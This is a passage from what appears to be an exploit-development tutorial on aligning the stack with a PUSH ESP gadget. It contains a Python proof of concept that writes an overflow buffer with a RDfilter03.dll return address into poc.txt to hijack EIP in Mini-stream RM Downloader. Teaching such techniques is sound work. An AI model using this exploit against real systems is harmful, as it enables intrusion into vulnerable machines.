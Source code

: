 To begin with an easy practice, it will be shown how a JMP/CALL/PUSH ESP instruction does everything that was done previously, by overwriting the EIP value, as it automatically aligns the ESP value with the previous one, doing the entire work for us!

Current poc:

```term
import struct 

pushesp = struct.pack("<I", 0x1003DF53) #   0x1003df53 : "\x54\xC3" |  {PAGE_EXECUTE_READ} [RDfilter03.dll] ASLR: False, Rebase: False, 
SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Mini-stream\RM Downloader\RDfilter03.dll)

buffer = "A" * 8704 + pushesp + "\xff" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

Once the script is run and the explotation process is completed, the debugger greets us with the following result:

![](/assets/img/Alignments/1.png)

It is important to note the values of the ESP and EIP registers, as they have been aligned by the PUSH ESP instruction.
